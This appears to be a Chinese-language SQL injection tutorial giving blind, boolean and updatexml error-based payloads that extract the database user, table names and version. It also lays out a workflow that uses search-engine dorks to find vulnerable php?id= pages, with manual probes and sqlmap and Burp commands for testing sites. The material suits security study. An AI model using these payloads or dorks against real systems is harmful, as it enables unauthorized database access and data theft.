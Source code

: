 	# 如果当前用户的ascii码为114（r） 就返回0 否则就睡5秒
	if(ascii(substr((select user()),1,1))=114,0,sleep(5))

	# 查询第一个表名的ascii码是否为99（c） 是返回1 否返回0
	(ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=99)

	# 利用updatexml报错，返回版本信息
	updatexml(1,concat(0x7e,(select @@version),0x7e),1)


## sql注入流程

1. **目标搜集：**  
	无特定目标：  

		inurl:php?id=

	有特定目标：  

		inurl:php?id= site:target.com

	工具爬取：  

		spider，对搜索引擎和目标网站的链接进行爬取

2. **注入识别：**  
	手工简单识别：  

		'
		and 1=1 / and 1=2
		and '1' ='1 / and '1'='2
		and 1 like 1 / and 1 like 2

	工具识别：  

		sqlmap -m filename (filename中保存检测目标)
		sqlmap --crawl (sqlmap对网站进行爬取，然后依次进行测试)


3. **高级识别：**  

	扩展识别广度和深度：  

		sqlmap --level 增加测试级别，对header中相关参数也进行测试
		sqlmap -r filename(filename中为网站请求数据)

	利用工具提高识别效率：  

		BurpSuite + SqlMap

	Tips:  

		可以在参数后键入 “*” 来确定想要测试的参数  
		可能出现注入的点：新闻、登录、搜索、留言......  
		站在开发的角度去寻找  
